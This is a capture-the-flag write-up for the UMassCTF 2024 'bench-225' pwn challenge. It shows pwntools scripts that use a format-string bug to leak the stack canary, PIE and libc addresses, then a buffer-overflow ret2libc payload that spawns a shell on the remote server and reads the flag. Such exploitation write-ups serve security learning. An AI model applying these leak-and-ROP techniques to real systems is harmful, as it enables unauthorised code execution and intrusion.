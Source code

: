 ```yaml
---
layout: post
title: UMassCTF 2024
author: 12th
categories: [Jeopardy]
tags: [ctf,pwn]
---
```


# pwn/bench-225

```
Life is one big tug of war. And you don't win the war by pushing the rope.

Files:

    bench-225

nc bench-225.ctf.umasscybersec.org 1337 

```

In this challenge we are given a compiled 64bit binary.

running checksec shows the we have full protections:

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Running the binary we see it gives us 5 options, Add 10s, Add 25s Add 45s, Bench and Remove Plate.

I'll start with opening it up with Ghidra, In main I saw an extra option, option 6 for Motivational Quote. 

The "motivation" function has two vulnerabilities.

![](https://i.imgur.com/B7QO6rb.png)


The first being fgets on line 17 is reading in 1000 bytes into local_18 which is set as only 8. This gives us an overflow.

The 2nd is line 20 when the program uses printf without any format specifer, giving us a format strings. This will let us leak important data such as the stack canary, libc and elf addresses. We can use all of those to ret2libc and get a shell.

Lets first get into this function.

```c    
if ((stam < 0x32) && (DAT_00107092 <= g_Barbell)) {
      puts("6. Motivational Quote");
    }
```

So for this option to appear we need low stamina, and the "barbell" to be above another value.

To achieve this I would just get the lbs above 200, and drain my stamina.

![](https://i.imgur.com/PVvPeUy.png)


As expected, i can use the format strings to leak data here. 

For this part I like to use a fuzz script to give me a bunch of leaks and i'll go and check the useful ones myself after.

```python
from pwn import *

for i in range(1,20):
        io = process('./bench-225',level='error')
        for x in range(5):
            io.sendline(b'3')

        for x in range(6):
            io.sendline(b'4')
            
        payload = f"%{i}$p"
        io.sendline(b'6')
        io.sendlineafter(b'quote:',payload)
        io.recvuntil(b'Quote:')
        print(io.recvline(),i)
        io.close()
```

This will print the leak, and the offset that 

```
❯ python3 fuzz.py
b' "0x7fff4364ba80\n' 1
b' "(nil)\n' 2
b' "0x7f8f1f314887\n' 3
b' "0x8\n' 4
b' "(nil)\n' 5
b' "(nil)\n' 6
b' "0xa016da080\n' 7
b' "0xa70243825\n' 8
b' "0xa93ade3f14484a00\n' 9
b' "0x7ffea69d6f50\n' 10
b' "0x55f76fde06a1\n' 11
b' "0x600000000\n' 12
b' "0x15549807e3813f00\n' 13
b' "0x1\n' 14
b' "0x7f111b829d90\n' 15
b' "(nil)\n' 16
b' "0x55a8003b935c\n' 17
b' "0x100000000\n' 18
b' "0x7fff6adc7928\n' 19
```

The ones that look intresting are, 9 (canary) 13(also could be canary), 15 and 11


Using GDB ill leak those addresses and check what they are. Using the Canary command inside GDB I can confirm:
13 is the canary 
11 is main+837
15 is _libc_start_call_main+128


Lets script this part together. I start by getting the option 6 to show up.

```python=
for x in range(5):
    io.sendline(b'3')

for x in range(6):
    io.sendline(b'4')
```


get the 3 leaks:
```python
payload = b"%13$p"
io.sendline(b'6')
io.sendlineafter(b'quote:',payload)
io.recvuntil(b'Quote:')
canary = int(io.recvline().strip()[1:].decode(),16)
log.info(hex(canary))

payload = b"%11$p"
io.sendline(b'6')
io.sendlineafter(b'quote:',payload)
io.recvuntil(b'Quote:')
main_leak = int(io.recvline().strip()[1:].decode(),16)
log.info(hex(main_leak))

payload = b"%15$p"
io.sendline(b'6')
io.sendlineafter(b'quote:',payload)
io.recvuntil(b'Quote:')
libc_leak = int(io.recvline().strip()[1:].decode(),16)
log.info(hex(libc_leak))
```

Calculate the base addresses:


```python
main_base = main_leak - elf.symbols.main - 837
elf.address = main_base
log.info(hex(main_base))

libc_base = libc_leak - 0x29d90
log.info(hex(libc_base))
libc.address = libc_base
```

and now I have all I need for a ret2libc:

We have a stack canary and the buffer was only 8 bytes, So we start with 8 bytes of "junk" followed by the stack canary, I use 8 \x00 to padding and the rest is a normal "ret2libc" loading binsh into pop rdi so we can run system(/bin/sh) on the remote server.


```python
payload = b'A'*8
payload += p64(canary)
payload += b'\x00' *8
payload += p64(ret)
payload += p64(pop_rdi)
payload += p64(next(libc.search(b"/bin/sh")))
payload += p64(libc.symbols.system)


io.sendline(b'6')
io.sendline(payload)

io.interactive()
```

Unlike most CTFs, the flag was not in the directory the shell spawned me into, 

So I ran `find / 2>/dev/null | grep flag.txt`

and I see the flag is in /home/tmp_bench_225/flag.txt

```
$ cat /home/tmp_bench_225/flag.txt
UMASS{wh0$e_g0nn4_c4rry_t3h_r0pz_&nd_d4_ch41nz?}
```


